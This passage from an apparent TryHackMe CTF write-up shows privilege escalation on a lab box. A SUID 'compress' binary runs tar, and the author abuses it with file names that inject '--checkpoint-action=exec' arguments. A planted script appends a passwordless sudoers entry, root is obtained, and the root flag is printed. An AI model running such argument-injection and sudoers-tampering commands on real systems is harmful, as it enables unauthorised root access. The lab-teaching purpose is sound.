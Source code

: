 ## Privilege Escalation
### SUID Binary

Now that we know what the binary does it's time to get root. 

The following command writes to the **x** file the instruction to add the user **john** to the sudoers file.

```console
john@keyring:~$ echo "echo 'john ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers" > x
```

Following the [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) instructions, there is to create these files.

```console
john@keyring:~$ echo > "--checkpoint=1"
john@keyring:~$ echo > "--checkpoint-action=exec=sh x"
```

Then, run the binary and execute the **sudo su** command to obtain root.

```console
john@keyring:~$ ./compress 
john@keyring:~$ sudo su
root@keyring:/home/john# whoami
root
```

Read the root flag.

```console
root@keyring:~# grep -oP 'V.*=' root.txt | base64 -d
THM{Keyr1ng_R00t3D_18310567}
```
